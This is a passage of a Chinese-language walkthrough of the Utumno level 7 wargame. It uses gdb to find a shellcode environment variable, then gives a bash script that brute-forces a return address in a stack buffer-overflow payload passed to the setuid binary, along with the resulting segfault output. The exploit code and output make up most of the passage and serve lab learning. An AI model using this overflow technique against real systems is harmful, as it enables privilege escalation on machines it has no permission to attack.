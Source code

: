 ```bash
add[27]: _=./number
...

```

序号是第9个的样子,用gdb看一下地址shellcode指针地。

```bash
utumno7@utumno:/tmp/jkfl$ gdb -q  /utumno/utumno7
Reading symbols from /utumno/utumno7...done.
(gdb) break *main
Breakpoint 1 at 0x8048501: file utumno7.c, line 32.
(gdb) r abcd
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /utumno/utumno7 abcd

Breakpoint 1, main (argc=2, argv=0xffffd574) at utumno7.c:32
32	in utumno7.c
(gdb) x/wx (char **)environ+9
0xffffd5a4:	0xffffdd5a
(gdb) x/s 0xffffdd5a
0xffffdd5a:	"LC_NAME=en_US.UTF-8"
(gdb) x/wx (char **)environ+10
0xffffd5a8:	0xffffdd6e
(gdb) x/s 0xffffdd6e
0xffffdd6e:	"SHELLCODE=", '\220' <repeats 190 times>...

```

最开始发现9不是，再往后找一个,可能gdb启动的时候里面加了一个环境变量。所以我们需要的地址在`0xffffd5a8`附近,退出gdb,写个脚本暴力枚举后面两位。


```bash
#!/usr/bin/env bash

while [[ $i  -lt  255 ]];
do
    x=`printf "%02X\n"  $i`
    echo $x
#    echo "$(python -c "print 'A'*128+'BBBB'*3+'\x${x}\xd1\xff\xff'")"
    /utumno/utumno7  $(python -c "print 'A'*128+'BBBB'*3+'\x${x}\xd5\xff\xff'")
    
    i=`expr $i + 1` 
done

```


```bash
utumno7@utumno:/tmp/jkfl$ chmod +x force.sh 
utumno7@utumno:/tmp/jkfl$ ./force.sh 

...

lol ulrich && fuck hector
./force.sh: line 11: 23038 Segmentation fault      /utumno/utumno7 $(python -c "print 'A'*128+'BBBB'*3+'\x${x}\xd5\xff\xff'")
15
lol ulrich && fuck hector
./force.sh: line 11: 23042 Segmentation fault      /utumno/utumno7 $(python -c "print 'A'*128+'BBBB'*3+'\x${x}\xd5\xff\xff'")
16
lol ulrich && fuck hector
./force.sh: line 11: 23046 Segmentation fault      /utumno/utumno7 $(python -c "print 'A'*128+'BBBB'*3+'\x${x}\xd5\xff\xff'")
17
```